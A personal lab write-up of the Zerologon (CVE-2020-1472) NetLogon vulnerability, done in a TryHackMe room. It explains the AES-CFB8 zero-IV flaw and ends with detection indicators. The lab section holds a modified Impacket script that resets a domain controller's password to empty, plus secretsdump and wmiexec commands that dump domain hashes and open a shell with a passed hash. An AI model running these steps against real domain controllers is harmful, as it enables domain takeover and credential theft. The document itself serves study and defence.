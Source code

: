 ```yaml
---
title: Zerologon
tags:
- writeups
---
```


## NetLogon Protocol

- **Overview**
	- is an RPC interface *(Windows domain controllers)*
	- used 4 user and machine authentication *(e.g logging in to servers using NTLM, update password)*
	- available over TCP through a dynamic port set by the *portmapper* service OR through an SMB pipe on `445`
	- it uses a customized cryptographic protocol to let a client *(a domain-joined computer)* and server *(the domain controller)* prove to each other that they both know a shared secret *(i.e hash of the client's account password)*
- initial auth handshake
	- ![[write-ups/images/Pasted image 20220602151627.png]]

## AES-CFB8 insecure use
- The cryptographic primitive both the client and server use to generate credential values is implemented in a function called `ComputeNetlogonCredential` *(takes an 8-byte input & performs transformasion w the secret esssion key)*
- To acomplish this it uses the [CFB8 (8-bit cypher feedback) mode](https://en.wikipedia.org/wiki/Block_cipher_mode_of_operation#CFB)
	- ![[write-ups/images/Pasted image 20220603141153.png]]
- Instead of generating the Initialization Vector *(IV)* randomly, the `ComputeNetlogonCredential` function **defines it as a fixed value which consits of 16 zero bytes** => this violates the requirments for using AES-CFB8 securely
- Ok but what could go wrong? Well: **for 1 in 256 keys, applying AESCFB8 encryption to an all-zero plaintext will result in all-zero ciphertext**
	- ![[write-ups/images/Pasted image 20220603141629.png]]

## Exploitation
![[write-ups/images/Pasted image 20220603143500.png]]
1. Spoofing the client credential
	- after exchanging challenges with a `NetrServerReqChallenge` call
	- a client authenticates by doing a `NetrServerAuthenticate3` call, which has a parameter `ClientCredential` *(that is computed by applying the `ComputeNetlogonCredential` to the client challenge)*
	- because we have control over the client challenge there's nothing stopping us to set it to 8 zeroes => for 1 in 256 session keys, the correct `ClientCredential` will also consist of 8 zeroes
	- session key will be different for every authentication attempt
	- computer accounts are not locked after invalid login attempt => we can try a bunch of times until we hit a key & authentication succeeds
2. Disabling signing & sealing
	- ok we can bypass the auth call, but we still have no idea what the value of the session key is
	- it becomess problematic due to Netlogon'ss transport encryption mechanism *(RPC signing & sealing)*, which uses this key but a different scheme than `ComputeNetlogonCredential`
	- luckily, signing & sealing is optional => so we can simply omit the flag in the `NetrServerAuthenticate3` call & continue
3. Spoofing a call
	- even when encryption is disabled, every call must contain a so-called `authenticator` value which is computed by applying `ComputeNetlogonCredential(w session key)` to the `ClientStoredCredential + Timestamp`
		- `ClientStoredCredential`: incrementing value maintained by the client & intialised to the same value as the `ClientCredential` we provided => will be 0
		- `Timestamp`: the current Posix time; server doesn't place many restriction on this value => simply pretend that it’s January 1st, 1970 = 0
	- `ComputeNetlogonCredential(0) = 0` => we can authenticate our first call by simply providing an all-zero authenticator & timestamp
4. Changing computer's AD password
	- we can leverage the `NetrServerPasswordSet2` call to set a new password for the client
		- password is not hashed but it is encrypted with the session key by using again `CFB8` with an all-zero IV
	- plaintext password structure in the Netlogon protocol consists of 516 bytes *(last 4 being the pass len)*
	- provide 516 zeroes => decryption to 516 zeroes => zero-length password *(setting empty passwords for a computer is not forbidden)* => can set an empty password for any computer in the domain
	- afterwards, we can simply set up a new Netlogon connection on behalf of this computer
	> **NOTE**: When changing a computer password in this way it is only changed in the AD. The targeted system itself will still locally store its original password.
5. From pass change to domain admin

### Lab
- **Perequistes**
	- check out the [POC released by secura](https://github.com/SecuraBV/CVE-2020-1472)
	- install [impacket](https://github.com/SecureAuthCorp/impacket):
		```bash
		python3 -m pip install virtualenv
		python3 -m virtualenv impacketEnv  
		source impacketEnv/bin/activate
		pip install git+https://github.com/SecureAuthCorp/impacket
		```
	- setup a local Domain Name Controller *([THM zer0logon room](https://tryhackme.com/room/zer0logon))*
- Modify `zerologon_tester.py` to reset the domain controller password & run it: `python zerologon_tester.py DC01 10.10.45.187`
	```python
	...
	
	def build_new_pass_req(dc_handle, target_computer):
    # https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/14b020a8-0bcf-4af5-ab72-cc92bc6b1d81
    newPassRequest = nrpc.NetrServerPasswordSet2()
    newPassRequest['PrimaryName'] = dc_handle + '\x00'
    newPassRequest['AccountName'] = target_computer + '$\x00'
    newPassRequest['SecureChannelType'] = nrpc.NETLOGON_SECURE_CHANNEL_TYPE.ServerSecureChannel
    newPassRequest['ComputerName'] = target_computer + '\x00'

    # https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/76c93227-942a-4687-ab9d-9d972ffabdab
    auth = nrpc.NETLOGON_AUTHENTICATOR()
    auth['Credential'] = b'\x00' * 8
    auth['Timestamp']  = b'\x00' * 4
    newPassRequest['Authenticator'] = auth

    # consists of 516 bytes of random padding: junk + password + length of pass (last 4 bytes)
    newPassRequest['ClearNewPassword'] = b'\x00' * 516
    return newPassRequest

	def try_zero_authenticate(dc_handle, dc_ip, target_computer):
		...
		
		# It worked!
    	assert server_auth['ErrorCode'] == 0
    	server_auth.dump()
    	print(f"server challenge {serverChall}")

    	try:
        	# Trigger password reset
        	print(f"Attempting password reset on {target_computer}...")
			newPassReq = build_new_pass_req(dc_handle, target_computer)
			res        = rpc_con.request(newPassReq)
			res.dump()
		except Exception as e:
        	print(e)
		return rpc_con

	...
	```
- Dump hashes with [impacket's secretsdump.py](https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/secretsdump.py): `python secretsdump.py -just-dc HOLOLIVE/DC01\$@10.10.45.187`
- Pop shell w [wmiexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py) by passing the hash: `python wmiexec.py HOLOLIVE/Administrator@10.10.45.187 -hashes aad3b435b51404eeaad3b435b51404ee:3f3ef89114fb063e3d7fc23c20f65568`

## Packet Analysis
TODO

## Mitigation & Detection

- many tries to authenticate unssuccessfully
- zero key stream in auth netlogon pkgs
- ssign & sseal flags are disabled
- timesstamp in auth value is 0
- choosing cipher suite of AES-CFB8

wirehark rule to detect it *(based on timestamp, negotiation opts, challenge & iv?)*

---

## References
- [Zerologon (CVE-2020-1472): An Unauthenticated Privilege Escalation to Full Domain Privileges](https://www.crowdstrike.com/blog/cve-2020-1472-zerologon-security-advisory/)
- [Zerologon Attack Explained Technical - CVE-2020-1472](https://www.youtube.com/watch?v=EzVmGQr2IFw)
- [Whitepaper: secura](https://www.secura.com/uploads/whitepapers/Zerologon.pdf)

## See Also
- [[write-ups/thm/core-windows-processes]]
- [[write-ups/THM]]
